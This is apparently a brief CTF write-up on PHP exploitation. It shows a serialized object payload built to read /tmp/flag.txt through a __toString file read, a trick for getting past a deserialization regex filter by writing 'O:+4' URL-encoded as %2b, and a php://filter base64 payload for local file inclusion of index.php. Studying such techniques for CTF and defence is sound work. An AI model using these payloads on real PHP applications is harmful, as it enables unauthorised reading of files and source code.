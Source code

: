 # Unserialize

## 序列化

```php
class what {
    public $filename;
    var $text;
    function __toString() {
        return @file_get_contents($this->filename);
    }
}
$a = new what();
$a->filename = "/tmp/flag.txt";
$a->text = "??!!@@$$5%%???";
$param = serialize($a);
echo $param;
```

O:4:"what":2:{s:8:"filename";s:13:"/tmp/flag.txt";s:4:"text";s:14:"??!!@@$$5%%???";}

## 正则

```php
!(bool)preg_match("/^O:[0-9]+:/s", $param);
```

O:+4:...绕过

由于在url中+会被识别为空格，故需用+的url编码%2b替换，即O:%2b4:...

原理： http://www.phpbug.cn/archives/32.html

# 本地文件包含

?file=php://filter/convert.base64-encode/resource=index.php

base64解码

More: https://github.com/Go0s/LFIboomCTF

